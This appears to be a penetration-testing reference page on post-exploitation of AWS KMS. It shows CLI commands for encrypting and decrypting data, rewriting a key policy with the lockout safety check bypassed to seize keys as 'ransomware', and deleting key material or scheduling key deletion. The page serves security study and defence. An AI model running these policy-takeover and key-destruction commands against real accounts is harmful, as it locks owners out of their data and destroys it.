 # AWS - KMS Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## KMS

For more information check:

{{#ref}}
../aws-services/aws-kms-enum.md
{{#endref}}

### Encrypt/Decrypt information

`fileb://` and `file://` are URI schemes used in AWS CLI commands to specify the path to local files:

- `fileb://:` Reads the file in binary mode, commonly used for non-text files.
- `file://:` Reads the file in text mode, typically used for plain text files, scripts, or JSON that doesn't have special encoding requirements.

> [!TIP]
> Note that if you want to decrypt some data inside a file, the file must contain the binary data, not base64 encoded data. (fileb://)

- Using a **symmetric** key

```bash
# Encrypt data
aws kms encrypt \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --key-id f0d3d719-b054-49ec-b515-4095b4777049 \
    --output text \
    --query Plaintext | base64 \
    --decode
```

- Using a **asymmetric** key:

```bash
# Encrypt data
aws kms encrypt \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --plaintext fileb:///tmp/hello.txt \
    --output text \
    --query CiphertextBlob | base64 \
    --decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
    --ciphertext-blob fileb://ExampleEncryptedFile \
    --encryption-algorithm RSAES_OAEP_SHA_256 \
    --key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
    --output text \
    --query Plaintext | base64 \
    --decode
```

### KMS Ransomware

An attacker with privileged access over KMS could modify the KMS policy of keys and **grant his account access over them**, removing the access granted to the legit account.

Then, the legit account users won't be able to access any informatcion of any service that has been encrypted with those keys, creating an easy but effective ransomware over the account.

> [!WARNING]
> Note that **AWS managed keys aren't affected** by this attack, only **Customer managed keys**.

> Also note the need to use the param **`--bypass-policy-lockout-safety-check`** (the lack of this option in the web console makes this attack only possible from the CLI).

```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
    --policy-name default \
    --policy file:///tmp/policy.yaml \
    --bypass-policy-lockout-safety-check

{
    "Id": "key-consolepolicy-3",
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "Enable IAM User Permissions",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::<your_own_account>:root"
            },
            "Action": "kms:*",
            "Resource": "*"
        }
    ]
}
```

> [!CAUTION]
> Note that if you change that policy and only give access to an external account, and then from this external account you try to set a new policy to **give the access back to original account, you won't be able cause the Put Polocy action cannot be perfoemed from a cross account**.

<figure><img src="../../../images/image (77).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

There is another way to perform a global KMS Ransomware, which would involve the following steps:

- Create a new **key with a key material** imported by the attacker
- **Re-encrypt older data** encrypted with the previous version with the new one.
- **Delete the KMS key**
- Now only the attacker, who has the original key material could be able to decrypt the encrypted data

### Destroy keys

```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
    --key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
    --pending-window-in-days 7
```

> [!CAUTION]
> Note that AWS now **prevents the previous actions from being performed from a cross account:**

<figure><img src="../../../images/image (76).png" alt=""><figcaption></figcaption></figure>

{{#include ../../../banners/hacktricks-training.md}}




